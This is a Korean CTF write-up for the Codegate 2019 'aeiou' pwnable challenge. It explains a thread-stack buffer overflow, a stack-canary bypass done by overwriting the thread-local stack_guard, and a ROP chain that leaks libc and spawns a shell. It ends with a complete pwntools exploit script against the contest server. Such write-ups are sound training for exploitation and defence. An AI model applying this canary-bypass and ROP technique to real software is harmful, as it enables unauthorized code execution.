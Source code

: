 ```yaml
---
layout: post
title: ! "[Codegate 2019] aeiou Write-up"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Codegate2019
  - Write-up
  - CTF
  - pwnable
---
```

### Description

> nc 110.10.147.109 17777

> [aeiou](../images/myria/aeiou-writeup/onewrite)


<!--more-->
주어진 바이너리를 실행하면 아래와 같은 메뉴를 확인할 수 있다.

```bash
Raising a Baby
-------------------------------------
[1] Play with Cards
[2] Clearing the Cards
[3] Teaching numbers
[4] Sleeping the Baby
[5] Dancing with Baby!
[6] Give the child blocks!
[7] Sleep me
--------------------------------------
>>
```

 하지만 어떤 메뉴를 선택하든 프로그램은 그 메뉴를 한번 실행하고 종료되기 때문에, 단 한 번에 공격이 이루어져야 한다.
 바이너리를 분석해보면 `pthread_create함수`로 새로운 스레드를 생성하여 `start_routine` 함수를 실행하는 부분이 있다. 이 `start_rountine`(0x4013AA)함수의 C 의사코드는 아래와 같다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_02.PNG)

 버퍼는 0x1000만큼 할당되어있지만 입력은 0x10000만큼 입력할 수 있다. 이는 BOF가 있음을 알려준다.

 ```bash
 [*] '/home/myria/CTF/CODEGATE/aeiou/aeiou'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x400000)
 ```

 하지만 카나리가 있기 때문에 BOF를 통해 바로 return address를 덮어씌울 방법이 없다.
 이를 우회하기위해 pthread_create함수가 이용된다. 스레드가 pthread_create함수에 의해 생성될 경우, 스레드의 스택에 `Thread Local Storage(TLS)`를 사용하여 변수를 저장한다. 즉, 스레드의 스택에 `stack_guard`(=카나리값)이 존재하기 때문에 이를 덮어씌우면 BOF를 사용하여 RIP를 컨트롤 할 수 있다.

 이제 `ROP기법`을 이용하여 라이브러리 주소를 유출(leak)하고 `원샷가젯 (execve("/bin/sh", rsp+0x30, environ))`을 실행하면 된다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_03.PNG)

### Full exploit code

```python
from pwn import *

conn = remote("110.10.147.109", 17777)
#conn = process("./aeiou")


def Teaching(num, data):
	conn.recvuntil(">>")
	conn.sendline("3")
	conn.recvuntil("Let me know the number!\n")
	conn.sendline(str(num))
	conn.send(data)

pop_rdi = 0x4026f3
pop_rsi_r15 = 0x4026f1
bss_addr = 0x604110

# leak atol (libc_address)
payload  = p64(pop_rdi) # pop rdi; ret;
payload += p64(0x603FC0) # atol@GOT
payload += p64(0x400B58) # jmp puts@PLT

# read(0, 0x602030, SIZE) %% rdi=0, rsi=0x602030, rdx = big value
payload += p64(pop_rdi) # pop rdi; ret;
payload += p64(0)		 # stdin
payload += p64(pop_rsi_r15) # pop rsi; pop r15; ret;
payload += p64(bss_addr)
payload += p64(0)		# r15 <= garbage
payload += p64(0x400B88) # jmp read@PLT

# rsp -> bss
payload += p64(0x4026ed) # pop rsp; pop r13; pop r14; pop r15; ret
payload += p64(bss_addr)


Data  = "A"*(0x1010-8)
Data += p64(0xdeadbeefcafebabe) # fake canary
Data += "B"*8 	# sfp
Data += payload # rop chain
Data += "C" * (2000-len(payload)) # rop chain
Data += p64(0xdeadbeefcafebabe) # fake canary

Teaching(0x1010 + 2008 + 8, Data)


# leak
conn.recvuntil("Thank You :)\n")
libc_base = u64(conn.recv(6).ljust(8, "\x00")) - 0x36ea0
log.info("libc_base: " + hex(libc_base))

"""
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
	[rsp+0x30] == NULL
"""

one_gadget = libc_base + 0x4526a
log.info("oneshot : " + hex(one_gadget))

payload  = p64(0) * 3 # pop r13; pop r14; pop r15; ret
payload += p64(one_gadget)
payload += '\x00' * 0x40  ## [rsp+0x30] == NULL

conn.sendline(payload)
conn.interactive()
```
